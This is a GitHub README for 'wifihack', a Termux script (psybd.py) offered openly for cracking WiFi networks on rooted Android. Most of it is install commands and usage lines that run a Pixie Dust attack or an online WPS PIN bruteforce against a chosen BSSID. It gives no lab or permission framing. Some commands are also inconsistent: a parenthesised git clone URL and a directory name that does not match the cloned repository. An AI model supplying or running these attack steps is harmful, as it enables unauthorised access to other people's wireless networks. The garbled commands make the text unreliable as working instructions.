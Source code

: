 ## wifihack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone (https://github.com/Foyej/Psybd)
$ cd Wifihack2
$ chmod +x psybd.py
$ sudo python psybd.py --help
```

#### Example : `sudo python psybd.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python psybd.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python psybd.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python psybd.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
